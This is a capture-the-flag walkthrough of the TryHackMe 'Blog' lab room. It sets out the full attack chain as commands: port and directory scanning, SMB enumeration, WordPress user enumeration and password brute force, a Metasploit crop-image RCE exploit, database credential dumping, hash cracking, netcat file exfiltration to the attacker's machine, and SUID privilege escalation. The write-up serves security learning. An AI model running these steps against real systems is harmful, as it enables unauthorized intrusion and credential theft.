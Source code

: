 # Blog

**Room Link:** [https://tryhackme.com/room/blog](https://tryhackme.com/room/blog)

## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (476).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (477).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (478).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (488).png" alt=""><figcaption></figcaption></figure>



## TCP/445 - SMB

**Kali**

```
smbclient -L //$VICTIM/
```

<figure><img src="../../.gitbook/assets/image (479).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
smbclient //$VICTIM/BillySMB
```

<figure><img src="../../.gitbook/assets/image (480).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
smbget -R smb://$VICTIM/BillySMB
```

<figure><img src="../../.gitbook/assets/image (481).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
steghide extract -sf check-this.png 
cat rabbit_hole.txt 
```

<figure><img src="../../.gitbook/assets/image (482).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

If you go to http://$VICTIM/wp-admin the page redirects to a new page so I add blog.thm into my hosts file and then it worked.

<figure><img src="../../.gitbook/assets/image (483).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (485).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
wpscan --url http://blog.thm/ --enumerate u
```

<figure><img src="../../.gitbook/assets/image (486).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (487).png" alt=""><figcaption></figcaption></figure>

Hydra was taking too long but wpscan was able to find it quickly.

**Kali**

```
wpscan --url http://blog.thm/ -U kwheel, bjoel -P /usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (489).png" alt=""><figcaption></figcaption></figure>

After logging in the user couldn't really do anything but I noticed wordpress is on version 5.0

<figure><img src="../../.gitbook/assets/image (490).png" alt=""><figcaption></figcaption></figure>







## Initial Shell

**Kali**

```
msfconsole
use exploit/multi/http/wp_crop_rce
set rhosts $VICTIM
set username kwheel
set password cutiepie1
run
shell
python2 -c 'import pty; pty.spawn("/bin/bash")'
id
```

<figure><img src="../../.gitbook/assets/image (491).png" alt=""><figcaption></figcaption></figure>



**Victim**

```
grep -i pass *
```

<figure><img src="../../.gitbook/assets/image (492).png" alt=""><figcaption></figcaption></figure>



**Victim**

```
mysql -u wordpressuser -p
Password: LittleYellowLamp90!@
show databases;
use blog;
show tables;
select * from wp_users;
```

<figure><img src="../../.gitbook/assets/image (493).png" alt=""><figcaption></figcaption></figure>



Tried brute forcing the hashes, we got the password for kwheel again but they aren't a user on the actual server. bjoel I wasn't able to bruteforce.

**Kali**

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (499).png" alt=""><figcaption></figcaption></figure>

Found a pdf in bjoels home directory, after opening it up it looks like he was fired so his account is most likely locked anyways so there may be no point trying to break into it.

**Kali(receiving)**

```
cd /home/bjoel
nc -l -p 1234 > Billy_Joel_Termination_May20-2020.pdf
```

**Victim(sending)**

```
nc -w 3 $KALI 1234 < Billy_Joel_Termination_May20-2020.pdf
```

<figure><img src="../../.gitbook/assets/image (494).png" alt=""><figcaption></figcaption></figure>

## **Privilege Escalation**

**Victim**

```
find / -perm -u=s -type f 2> /dev/null 
```

<figure><img src="../../.gitbook/assets/image (496).png" alt=""><figcaption></figcaption></figure>

This script seems to just check if there is a admin environment variable is set, if it isn't it will exit.

**Victim**

```
cd /usr/sbin
ltrace checker
```

<figure><img src="../../.gitbook/assets/image (495).png" alt=""><figcaption></figcaption></figure>

I add the admin environment variable then right away I got root after running the script

**Victim**

```
env
export admin=admin
env
/usr/sbin/checker
```

<figure><img src="../../.gitbook/assets/image (497).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (498).png" alt=""><figcaption></figcaption></figure>
